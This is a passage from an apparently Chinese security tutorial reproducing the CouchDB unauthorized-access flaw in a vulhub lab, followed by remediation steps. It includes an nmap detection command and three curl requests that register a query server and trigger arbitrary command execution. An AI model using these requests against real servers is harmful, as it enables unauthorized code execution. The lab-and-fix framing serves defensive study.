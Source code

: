 ### 漏洞复现

#### 环境搭建

这里使用 vulhub 中的项目来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuQBiaComiaibDasDDkZnyBw5ZuAXTfbOqm9xEQEHRV0cY7fY9uT7yibFWwA/640?wx_fmt=jpeg)

#### 漏洞检测

nmap -p 5984 —script couchdb-stats.nse

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuBCYXkTicgFXQic1HEoOLkZibSn2H2BLhOWbWDLDcYJczTs55vjbiavrc1Q/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuD8Eiaj00xpjIMSMkIS8MFzl3J5g8bmpOUCJPlRd1UuYprjVOqVJvsew/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuTUjH2TYGjxlh14fvZwicF1zsfPDx2l8F9icVS7FWnl6pGcsneDXeYwzg/640?wx_fmt=jpeg)

#### 漏洞利用

任意命令执行：

1、新增 query\_server 配置，写入要执行的命令；

```
curl -X PUT 'http://192.168.168.131:5984/\_config/query\_servers/cmd' -d '"id >/tmp/success"'
```

2、新建一个临时库和临时表，插入一条记录；

```
curl -X PUT 'http://192.168.168.131:5984/vultest'
curl -X PUT 'http://192.168.168.131:5984/vultest/vul' -d '{"\_id":"770895a97726d5ca6d70a22173005c7b"}'
```

3、调用 query\_server 处理数据

```
curl -X POST 'http://192.168.168.131:5984/vultest/\_temp\_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktu30EFMD9O8RRW6moF19Mt1ibKRPkicAiaXPk9xfxj5TQ0YoguSV6JFgqZg/640?wx_fmt=jpeg)

### 修复方法

1、指定 CouchDB 绑定的 IP （需要重启 CouchDB 才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind\_address = 0.0.0.0” ，把 0.0.0 修改为 127.0.0.1 ，然后保存。

2、设置访问密码 （需要重启 CouchDB 才能生效） 在 /etc/couchdb/local.ini 中找到 “\[admins\]” 字段配置密码。

Memcached 未授权访问漏洞
-----------------

### 漏洞简介
